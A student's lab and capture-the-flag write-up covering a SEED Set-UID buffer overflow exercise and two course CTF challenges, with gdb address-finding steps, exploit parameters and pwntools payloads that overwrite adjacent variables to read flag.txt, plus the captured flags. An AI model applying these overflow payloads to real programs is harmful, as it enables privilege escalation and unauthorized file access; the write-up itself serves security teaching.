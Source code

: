 # Buffer Overflow Attack Lab (Set-UID Version)

## Task 1

Both of the programs seem to work the same, no output errors and both successfully run shell command

## Task 2

![Task 2 screenshot](images/Lab2Task2.png)

## Task 3

- Created *badfile*, compiled using make and used gdb to debug the file stack-L1-dbg
- Created a breakpoint in the function *bof*
- Write *run* to start executing the program, followed by *next* to execute a few instructions and stop after the **ebp** register is modified to point to the stack.
- Check **ebp** value using `p $ebp`: 0xffffc978
- Check the variable **buffer** value using `p &buffer`: 0xffffc90c
- Run `x/100 0xffffc90c` to get the address
- Insert the values in the `exploit.py` script
- We gave `start` the value 200, a value big enough to fill the code with NOPs to reach the return address
- We gave `ret` the address 0xffffc9cc, a value selected some registers after the return address to have room to execute the shell code
- We gave `offset` the value 112 because it's the register difference between the buffer and the str pointer, (100 + 8 + 4)

# Capture The Flag

## Challenge 1:

- Installation of the library `pwntools` and downloaded the files provided for this CTF.
- Executed the `checksec program` command to analyse the program compilation protections.
- The file opened by the program is stored in the variable `meme_file`.
- There is a way to control the open file if we change de meme_file value.
- There is a `scanf` that reads 28 characters from the variable `buffer` which has a size of 20 characters, therefore a buffer overflow is possible by using the 8 extra bytes.
- Therefore, in the `scanf` input, we must submit a string like `12345678901234567890flag.txt`, setting those extra bytes to **flag.txt** in order to override the value of the `meme_file` variable, which will be then read in the `fopen` call.
- Therefore, to explore this vulnerability, we changed the text sent in the python script to `r.sendline(b"12345678901234567890flag.txt")` and obtained the desired flag.
- Submit 1st flag ("**flag{bd5845361bcae9b37f62787760b5763b}**")

```
    [11/27/21]seed@VM:~/.../ctf-5$ python3 exploit-example.py
    [+] Opening connection to ctf-fsi.fe.up.pt on port 4003: Done
    [] Switching to interactive mode
    Echo 12345678901234567890flag.txt
    I like what you got!
    flag{bd5845361bcae9b37f62787760b5763b}
    [] Got EOF while reading in interactive
    $
```

## Challenge 2:

- Downloaded the files provided for the second challenge of this CTF.
- Executed the `checksec program` command to analyse the program compilation protections, concluded that the architecture is i386-32-little.
- This time, the program contains the following variables:
```c
    char meme_file[8] = "mem.txt\0";
    char val[4] = "\xef\xbe\xad\xde";
    char buffer[20];
```
- There is still a buffer overflow issue due to the `scanf` function allowing 32 characters to be read
```c
scanf("%32s", &buffer);
```
Given that the buffer only contains 20 characters and we are allowed to insert 32, we can use the buffer overflow vulnerability to override the `val[4]` and `meme_file[8]` arrays.
- In order to read from the file, the following condition must be met:
```c
if(*(long*)val == 0xfefc2122)
```
To do so, we have to make `val` equal to the aforementioned address.
- Knowing that the architecture is i386-32-little, we must convert this address to little-endian ordering, using the python function `to_bytes`.

```python
ret = 0xfefc2122  ### Desired Address
bts = (ret).to_bytes(L,byteorder='little') ### Address convertion to bytes in little endian
```

- Therefore, in order to exploit this vulnerability, we now need to make the message read by `scanf` to have the following format:
    - bytes[0:19] -> Random bytes
    - bytes[20:23] -> Little-endian bytes representation of the desired address
    - bytes[24:31] -> 'flag.txt' string, in bytes

- To do so, the `sendline` command of our script must be changed to:
```python
r.sendline(b"12345678901234567890" + bts + b"flag.txt")
```
- Now, by simply running our described script, we obtained the following output, which allowed us to obtain the requested flag.

```console
[11/27/21]seed@VM:~/.../step2$ python3 exploit.py
[+] Opening connection to ctf-fsi.fe.up.pt on port 4000: Done
[*] Switching to interactive mode
I like what you got!
flag{9acfa2344e8a8dfd9949d1be42732518}
[*] Got EOF while reading in interactive
$  
```

- Submit 2nd flag ("**flag{9acfa2344e8a8dfd9949d1be42732518}**")